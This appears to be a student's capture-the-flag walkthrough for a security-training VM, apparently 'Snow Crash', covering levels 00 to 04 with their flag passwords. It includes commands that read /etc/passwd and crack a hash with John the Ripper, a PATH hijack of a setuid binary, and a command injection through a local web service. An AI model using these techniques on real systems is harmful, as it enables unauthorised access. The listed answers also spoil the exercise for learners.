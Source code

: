 ```b
flag00  nottoohardhere 
level01  x24ti5gi3x0ol2eh4esiuxias
flag01  abcdefg
level02  f2av5il02puano7naaf6adaaf
flag02  ft_waNDReL0L
level03  kooda2puivaav1idi4f57q8iq
level04  qi0maab88jeaj46qoumi7maus
level05  ne2searoevaevoem4ov4ar8ap
```


# SSH

```b
$ ifconfig
$ ifconfig | grep inet
$ ifconfig | grep 'inet ' | awk 'NR==2'
$ ssh level00@$(ifconfig | grep 'inet ' | awk 'NR==2 {print $2}') -p 4242
```

# 00

- to begin with

```b
$ ls -l
$ find / -user level00 
$ find / -user level00 2>/dev/null
$ find / -user flag00 2>/dev/null
$ find / -user flag00 -exec cat {} + 2>/dev/null\
cdiiddwpgswtgt
cdiiddwpgswtgt
```

- command explained
    - `/` - from root directory
    - `+` - forces `find` to run `cat` on many files at once and not one at a time
    - `2>/dev/null` - redir stderr output to `/dev/null`
- decipher ___`cdiiddwpgswtgt`___ in python

```py
a = ord('a')
for i in range(26):
    print(i, ''.join(chr(a + (ord(c) - a + i) % 26) for c in 'cdiiddwpgswtgt'))
```

- token

```b
> su flag00
Password: nottoohardhere
> su level01
> Password: x24ti5gi3x0ol2eh4esiuxias
```


# 01

- Legacy folder `/etc/passwd`

```b
> cat /etc/passwd
> cat /etc/passwd | grep -i flag01 | awk -F: '{print $2}'

### observation
  😀 if we have john we'll able to do:
  > john --show <(cat /etc/passwd | grep -i flag01 | awk -F: '{print $2}')
```

- Use our own _`do_john`_ script

```b
> chmod +x do_john.sh
> ./do_john.sh
```

- or download and use _`john`_

```b
> wget https://download.openwall.net/pub/projects/john/contrib/macosx/john-1.8.0.9-jumbo-macosx_sse4.zip
> tar -xvf john-1.8.0.9-jumbo-macosx_sse4.zip
> cd john-1.8.0.9-jumbo-macosx_sse4
> echo 42hDRfypTqqnw > __test
> ./john __test
> ./john --show __test
```

- token

```b
> su flag01
Password: abcdefg
> su level02
> Password: f2av5il02puano7naaf6adaaf
```


# 02

- New stuff
  - `realpath` - get the full absolute filepath
  - `scp` - secure copy - `scp username@ip:path _local_`
  - `~.pcap` - a Packet Capture to store network packet data captured during network traffic monitoring

- Save the `.pcap` to Host
```b
### VM
> ls -l
----r--r-- 1 flag02 level02 level02.pcap
^ which means a regular file

> scp -P 4242 level02@$(ifconfig|grep 'inet '|awk 'NR==2 {print $2}'):/home/user/level02/level02.pcap $(pwd)
```

- ❌ Inspect `.pcap`  

```b
### Host
> hexdump -C level02.pcap 
> xxd level02.pcap 
> xxd level02.pcap | grep -i pass -A10 -B10
> xxd level02.pcap | cut -d ' ' -f2-9 | tr -d ' '
```

- ✅ Use _Wireshark_ 
  - _Analyze - Follow - TCP Stream_ 
  - copy _`TCP Stream`_ to text

```b
    000000D6  00 0d 0a 50 61 73 73 77  6f 72 64 3a 20            ...Passw ord: 
000000B9  66                                                 f
000000BA  74                                                 t
000000BB  5f                                                 _
000000BC  77                                                 w
000000BD  61                                                 a
000000BE  6e                                                 n
000000BF  64                                                 d
000000C0  72                                                 r
000000C1  7f                                                 .
000000C2  7f                                                 .
000000C3  7f                                                 .
000000C4  4e                                                 N
000000C5  44                                                 D
000000C6  52                                                 R
000000C7  65                                                 e
000000C8  6c                                                 l
000000C9  7f                                                 .
000000CA  4c                                                 L
000000CB  30                                                 0
000000CC  4c                                                 L
000000CD  0d                                                 .
```

- `7f` - DE
- `0d` - CR

```py
infile = [[n[-2], n[-1]] for n in [_.split() for _ in open(0).read().split('\n') if len(_.split()) == 3]]
res = ''
for i, line in enumerate(infile):
    print('line/', line, 'i/', i)
    x, c = line
    if x == '7f':
        res = res[:-1]
    elif c != '.':
        res += c
    else:
        assert(x == '0d')
print('res/', res)

# ft_waNDReL0L
```

- token

```b
> su flag02
Password: ft_waNDReL0L
> su level03
> Password: kooda2puivaav1idi4f57q8iq
```


# 03

- Inspect
  - ❌ `file` `readelf` `strings` 
  - ✅ `ltrace` 
```b
> ls -l
-rwsr-sr-x 1 flag03 level03 8627 level03
   ^  ^ setuid bit & setgid bit are set
  👉 when the binary is exec functions called inside it
  are called under same level of permission
```
```b
> ltrace ./level03
  👉 we can see the `s` bit in action

### output
getegid()                                           = 2003
geteuid()                                           = 2003
setresgid(2003, 2003, 2003, 0xb7e5ee55, 0xb7fed280) = 0
setresuid(2003, 2003, 2003, 0xb7e5ee55, 0xb7fed280) = 0
system("/usr/bin/env echo Exploit me" ...

### observations
  👉 getegid & geteuid return a effective group/user ID ie. 2003
  👉 setresgid & setresuid set Real/Effective/Saved ID to ensure
  that the process maintains privileges
  👉 `/usr/bin/env echo` uses a vulnerable relative path
  since ./level03 has high privileges,
  we can fake a false echo to run getflag inside ./level03
```
```b
> whereis getflag
getflag: /bin/getflag
```

- Solution

```b
> echo -e "#\!/bin/bash\n/bin/getflag" > /tmp/echo
> chmod +x /tmp/echo
> export PATH=/tmp:$PATH  👈 prepend tmp to get it checked first
> ./level03
```

- Token

```b
> su level04
> Password: qi0maab88jeaj46qoumi7maus
```


# 04 - Todo: perl script problem
- understand the `.pl`
- know `2>&1`
```b
> nc -vz localhost 4747
  👆 v: verbose - z: scan if a port is open
Connection to localhost 4747 port [tcp/*] succeeded!

> curl localhost:4747/?x="\`/bin/getflag\`"
```

- token

```b
su level05
> Password: ne2searoevaevoem4ov4ar8ap
```


# 05 - Todo: `/var/mail` `cronjob`


# 06 - Todo: `php` `regex`


# 07 - Todo: `ltrace` again

